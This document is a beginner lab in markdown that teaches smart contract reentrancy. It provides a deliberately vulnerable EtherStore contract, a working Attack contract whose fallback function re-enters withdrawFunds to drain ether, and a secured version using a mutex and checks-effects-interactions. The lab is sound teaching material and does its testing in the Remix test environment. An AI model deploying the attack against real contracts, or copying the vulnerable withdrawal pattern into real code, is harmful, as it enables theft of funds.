

# Module 9 - Beginner Lab: Smart Contract Security

## Background
As with all software, there is a chance that a smart contract may be exploited. In the case of smart contracts, though, there is an especially high risk, since transactions are permanent and wallets are essentially anonymous. To prevent financial loss, it is a good idea to follow best practices for secure programming, such as the [checks-effects-interactions pattern][checks-effects-interactions].

## Meta Information
| Attribute | Explanation |
| - | - |
| Summary | This assignment goes over exploiting a bad practice in smart contract programming. |
| Topics | Smart contracts, security, risk of financial loss. |
| Audience | Appropriate for CS1 or a later course. |
| Difficulty | Beginner. |
| Strengths | This assignment makes students aware of a type of security issue, attack scenario, and a best practice when writing code for smart contracts. |
| Weaknesses | Effective secure programming requires the discipline of strict adherence to many, potentially unintuitive guidelines for which it is impractical to present the breadth of in a single lab. |
| Dependencies | Some programming knowledge and an internet-connected computer with a suitable browser for use of [the Remix IDE][Remix]. |
| Variants | There are many other vulnerabilities which could be the focus of this lab instead. |

## Assignment Instructions
1. First, we begin by creating a contract with a simple purpose, such as temporarily holding Ether for the owner(s). Click the plus icon  in the upper left corner of [Remix][Remix] to create a new document and name it `EtherStore.sol`. Then copy and paste the following code into it:  
    [_EtherStore.sol_][EtherStore.sol]
    ```solidity
    contract EtherStore {

        uint256 public withdrawalLimit = 1 ether;
        mapping(address => uint256) public lastWithdrawTime;
        mapping(address => uint256) public balances;

        function depositFunds() public payable {
            balances[msg.sender] += msg.value;
        }

        function withdrawFunds (uint256 _weiToWithdraw) public {
            require(balances[msg.sender] >= _weiToWithdraw);
            // limit the withdrawal
            require(_weiToWithdraw <= withdrawalLimit);
            // limit the time allowed to withdraw
            require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
            require(msg.sender.call.value(_weiToWithdraw)());
            balances[msg.sender] -= _weiToWithdraw;
            lastWithdrawTime[msg.sender] = now;
        }
     }
    ```
      
    
2. Click on the plugin icon  in the left-most pane of Remix.
    
3. Activate the `Deploy & Run Transactions` and `Solidity Compiler` plugins.
    
    You should see two new icons in the leftmost pane: one, the solidity compiler, looks like an "s"  and the other, deploy and run, is the Ethereum symbol with an arrow to the right .  
    
4. Click the solidity compiler plugin icon .
5. Select compiler `0.4.26+commit.4563c3fc`.  
      
6. Click the `Compile EtherStore.sol` button and wait for compilation to complete. For the purposes of this lab, you can safely ignore all (orange) warnings.  
      
7. Click the deploy-and-run plugin icon .
8. Click the orange `Deploy` button .
9. A smart contract, **EtherStore** will be deployed to the blockchain. Click the arrow on the left of it to reveal its functions.  
      
    
10. In the value box, type `10`, and in the dropdown box next to it, select `ether`.  
    
11. Click the `depositFunds` function button  under the `EtherStore` deployed contract.  
    
12. Notice that the selected account has been debited 10 ether (as well as some gas fees for contract deployment and the deposit transaction), leaving 89.999... ether from the original 100.  
    
10. We then create an other contract to attack `EtherStore.sol`. Create a new contract named `Attack.sol`, and copy/paste the following code:  
    [_Attack.sol_][Attack.sol]
    ```solidity
    import "EtherStore.sol";

    contract Attack {
      EtherStore public etherStore;

      // intialize the etherStore variable with the contract address
      constructor(address _etherStoreAddress) {
          etherStore = EtherStore(_etherStoreAddress);
      }

      function attackEtherStore() public payable {
          // attack to the nearest ether
          require(msg.value >= 1 ether);
          // send eth to the depositFunds() function
          etherStore.depositFunds.value(1 ether)();
          // start the magic
          etherStore.withdrawFunds(1 ether);
      }

      function collectEther() public {
          msg.sender.transfer(this.balance);
      }

      // fallback function - where the magic happens
      function () payable {
          if (etherStore.balance > 1 ether) {
              etherStore.withdrawFunds(1 ether);
          }
      }
    }
    ```
      
3. In `Attack`, observe that whenever this contract's `attackEtherStore` function is called with a transaction amount >= 1 ether, it then calls the `EtherStore` contract’s `depositFunds` function, followed immediately by `EtherStore`'s `withdrawFunds` function. The `EtherStore` contract verifies the balance, owner, withdrawal amount, and time since last withdrawal are all okay and proceeds to pay the attacking contract. So far, everything seems okay; however, once the `EtherStore` contract pays the `Attack` contract, execution of the code flows into the `Attack` contract's fallback function (the function called when a contract is paid any amount). Inside the `Attack` contract's fallback function, `EtherStore`'s balance is checked, and provided there is ether remaining to steal, the `withdrawFunds` function is called again. The `Attack` contract has, in effect, caused execution to "reenter" the `EtherStore` contract's `withdrawFunds` function before it could update the values it checks to ensure everything is okay before paying out.
10. Repeat the previous two steps for `Attack.sol`.

14. Click the clipboard icon  to the right of the deployed `EtherStore` contract to copy its address; we will need it to tell the `Attack` contract what to attack.  
      
15. Select `Attack` in the box just above the orange `Deploy` button.  
      
16. Paste the previously-copied `EtherStore` address into the box just to the right of the orange `Deploy` button.  
      
17. We can prevent an attack like this in a few different ways. One way is to use the built-in `transfer` function, which only sends 2300 gas, insufficient to allow the current execution to call the `withdrawFunds` function again. An other way is to use what's known as the [checks-effects-interactions pattern][checks-effects-interactions], which would have us move lines 18 and 19 to before line 17, so that updates to checked variables are done before interaction with an outside entity. One more way we could prevent this attack is with an additional state variable, called a mutex or mutual exclusion variable, which acts as a lock and prevents further execution from occurring until the current function exits (and resets the mutex). Including all three methods (though any one would work), we have a more-secure `EtherStore`, which we'll call `SecuredEtherStore`:  
    [_SecuredEtherStore.sol_][SecuredEtherStore.sol]
    ```solidity
    contract SecuredEtherStore {

        // initialize the mutex
        bool reEntrancyMutex = false;
        uint256 public withdrawalLimit = 1 ether;
        mapping(address => uint256) public lastWithdrawTime;
        mapping(address => uint256) public balances;

        function depositFunds() public payable {
            balances[msg.sender] += msg.value;
        }

        function withdrawFunds (uint256 _weiToWithdraw) public {
            require(!reEntrancyMutex);
            require(balances[msg.sender] >= _weiToWithdraw);
            // limit the withdrawal
            require(_weiToWithdraw <= withdrawalLimit);
            // limit the time allowed to withdraw
            require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
            balances[msg.sender] -= _weiToWithdraw;
            lastWithdrawTime[msg.sender] = now;
            // set the reEntrancy mutex before the external call
            reEntrancyMutex = true;
            msg.sender.transfer(_weiToWithdraw);
            // release the mutex after the external call
            reEntrancyMutex = false;
        }
     }
    ```

## Credits
Dr. Debasis Bhattacharya  
Mario Canul  
Saxon Knight  
https://github.com/ethereumbook/ethereumbook  

[Remix]: https://remix.ethereum.org/
[EtherStore.sol]: EtherStore.sol
[Attack.sol]: Attack.sol
[SecuredEtherStore.sol]: SecuredEtherStore.sol
[checks-effects-interactions]: https://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern
